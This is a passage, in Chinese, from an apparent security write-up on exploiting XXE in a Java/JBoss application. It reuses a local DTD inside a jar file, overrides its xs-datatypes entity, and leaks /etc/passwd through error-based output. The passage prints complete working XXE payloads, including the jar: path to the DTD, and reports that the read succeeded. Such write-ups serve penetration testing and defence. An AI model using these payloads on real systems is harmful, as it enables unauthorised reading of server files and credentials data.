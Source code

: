 ```bash
....
<!ENTITY % xs-datatypes PUBLIC 'datatypes' 'datatypes.dtd' >
....
%xs-datatypes; <!-- Here We can overwrite parameter Entity % xs-datatypes and our content would be then passed & parsed here-->
...
....
```

因此，我必须在 XXE 有效 payload 中创建以下实体（基本上覆盖 XMLSchema.dtd 中的现有对象）：

```bash
<!ENTITY % xs-datatypes '<!ENTITY &#x25; file SYSTEM " file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///abcxyz/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
```

幸运的是，我正在测试的是一个基于 Java 的应用程序，该应用程序具有**“ jar”**协议，可用于读取存档（jar / zip 等）中的文件，  
例如：`jar:file://var/www/html/test.zip!/test.txt`其中 test.txt 是 test.zip 中的文件  
由于我是在本地环境上进行所有操作的，因此我首先确认该应用程序中是否还存在该特定的 jar 文件，结果现实确实如此。

接下来，我要做的就是：

1.  使用 jar 协议读取 jbossxacml-xxxFinal-redhat-x.jar 文件中的 XMLSchema.dtd，
2.  创建“xs-datatypes”实体以覆盖内容

```bash
<!DOCTYPE root [
<!ENTITY %  x SYSTEM 
"jar:file:///jboss-as/modules/system/layers/base/org/jboss/security/xacml/main/jbossxacml-x.x.x.Final-redhat-x.jar!/schema/xmlschema/XMLSchema.dtd"> 
<!ENTITY % xs-datatypes ' <!ENTITY &#x25; file SYSTEM " file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
%x;
]>
<root>
<id>..</id>
<name>test</name>
</root>
```

成功了！它在 HTTP 响应的错误中返回了/ etc / passwd 的内容  
[![](assets/1704850652-164cd86a7406796de5aaeac4676ff06c.png)](https://cdn.nlark.com/yuque/0/2019/png/336528/1575815005824-dbbe2c95-0d9b-4182-9370-9313a4be4ab2.png#align=left&display=inline&height=318&name=image.png&originHeight=635&originWidth=1600&size=363867&status=done&style=none&width=800)
